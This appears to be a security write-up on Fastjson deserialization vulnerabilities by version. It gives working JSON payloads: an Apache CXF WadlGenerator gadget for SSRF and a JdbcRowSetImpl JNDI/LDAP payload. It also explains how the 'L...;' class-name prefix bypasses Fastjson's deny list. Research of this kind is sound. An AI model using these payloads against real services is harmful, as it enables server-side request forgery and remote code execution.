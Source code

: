 

### History

#### early 1.2.24

- Using gadget in `Apache CXF JAX-RS Bundle Jar` to triggle `ssrf`.

{% highlight java %}
<dependency>
    <groupId>org.apache.cxf</groupId>
    <artifactId>cxf-bundle-jaxrs</artifactId>
    <version>2.6.6</version>
</dependency>
{% endhighlight %}

​   

- Payload:

```
{"@type":"org.apache.cxf.jaxrs.model.wadl.WadlGenerator","schemaLocations":"http://127.0.0.1:8001/pwned"}
```

--------

#### 1.2.25 - 1.2.41

- Enable AutoType

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

- Payload:

```
{\"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\", \"dataSourceName\": \"ldap://127.0.0.1:1389/w17ii2\",\"autoCommit\": true\ "}
```

- Explain:

`-` According DenyList, `com.sun` exists array, So with clazz `Lcom.sun.rowset.JdbcRowSetImpl;` . It will have to go through some screening steps later to bypass.

Step 1:

com\alibaba\fastjson\parser\ParserConfig.class

{% highlight java %}
 for(i = 0; i < this.denyList.length; ++i) {
                    deny = this.denyList[i];
                    if (className.startsWith(deny)) {
                        throw new JSONException("autoType is not support. " + typeName);
                }
       }      
{% endhighlight %}
